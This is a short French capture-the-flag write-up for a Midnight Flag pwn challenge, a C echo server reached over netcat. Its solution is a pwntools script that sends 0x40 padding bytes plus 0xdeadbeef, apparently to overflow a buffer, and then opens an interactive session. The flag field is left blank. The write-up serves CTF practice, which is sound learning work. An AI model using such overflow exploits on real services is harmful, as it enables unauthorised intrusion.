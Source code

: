 # Description
Worty a décidé de s'entraîner à coder en C. Pour cela, il a créé un petit serveur qui répète ce qu'on lui dit.
Prouvez-lui qu'il devrait améliorer son code !
Accès au challenge: `nc ctf.midnightflag.fr 9020`
PS: Pour tous les challenges de pwn, les flags dans les binaires que vous téléchargez sont évidemment faux!

# Write UP
```python
#!/usr/bin/python

from pwn import *

r = remote('ctf.midnightflag.fr', 9020)

buf = "A"*0x40
buf += p32(0xdeadbeef)

r.sendline(buf)

r.interactive()
```

# Flag 
-
